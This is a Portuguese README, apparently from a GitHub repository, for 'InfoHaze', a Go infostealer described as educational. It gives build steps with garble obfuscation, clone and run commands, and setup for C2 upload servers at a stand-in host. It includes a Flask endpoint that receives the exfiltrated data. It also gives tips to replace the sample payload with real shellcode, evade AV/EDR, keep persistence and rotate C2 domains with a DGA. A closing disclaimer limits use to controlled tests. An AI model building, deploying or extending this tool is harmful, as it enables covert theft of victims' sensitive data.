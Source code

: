# InfoHaze

## Visão Geral
Infostealer somente para fins educacionais em Go, projetado para operar furtivamente em ambientes controlados, evadir AV/EDR e garantir persistência. Ele coleta dados sensíveis e exfiltra para servidores C2 via HTTPS.

## Requisitos
- Go 1.20 ou superior.
- Dependências:
  ```bash
  go get github.com/kbinani/screenshot
  go get github.com/klauspost/compress/zlib
  go get golang.org/x/sys/windows
  ```
- Compilação com ofuscação:
  ```bash
  garble -a -tiny build -o infoHaze.exe
  ```

## Instalação e Uso
1. Clone o repositório:
   ```bash
   git clone https://github.com/marcostolosa/infoHaze.git
   cd infoHaze
   ```
2. Instale dependências:
   ```bash
   go mod tidy
   ```
3. Compile o binário:
   ```bash
   go build -ldflags "-s -w" -o infoHaze tika.go
   ```
4. Configure os servidores C2 no código (substitua `https://backup1.example.com/upload` e outros).
5. Execute no ambiente controlado:
   ```bash
   ./infoHaze
   ```

## Configuração do Servidor C2
- Configure um servidor HTTPS para receber dados (ex.: Flask ou Node.js).
- Implemente descriptografia AES-GCM e descompressão zlib no servidor.
- Exemplo de endpoint:
  ```python
  from flask import Flask, request
  app = Flask(__name__)

  @app.route('/upload', methods=['POST'])
  def upload():
      data = request.data
      # Descriptografar e descomprimir
      with open('output.bin', 'wb') as f:
          f.write(data)
      return 'OK', 200
  ```

## Limitações
- O payload injetado é um exemplo simples (NOP sled + RET). Substitua por um payload funcional (ex.: shellcode).
- A detecção de sandbox pode ser expandida com mais verificações (ex.: análise de disco ou CPU).
- Considere integrar DGA (Domain Generation Algorithm) para domínios C2 dinâmicos.

## Aviso
Este software é fornecido exclusivamente para testes de segurança em ambientes controlados e legais. O uso não autorizado é ilegal e antiético. Os desenvolvedores não se responsabilizam por qualquer uso indevido.
